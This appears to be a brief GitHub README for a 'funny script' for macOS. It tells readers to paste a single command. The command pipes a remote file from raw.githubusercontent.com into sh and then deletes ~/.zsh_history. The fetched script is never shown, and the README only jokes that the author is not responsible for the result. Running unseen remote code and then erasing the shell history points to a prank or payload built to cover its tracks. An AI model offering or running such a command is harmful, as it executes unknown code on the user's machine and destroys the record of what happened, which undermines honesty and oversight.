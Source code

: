 
Hey this is a super funnyscript which work verry well on osx !

I'm not responsible for what you do with this script so make sure you know what you're doing :)

```curl https://raw.githubusercontent.com/vimman/FunnyScript/master/System_input | sh && rm ~/.zsh_history```

Have fun !!!
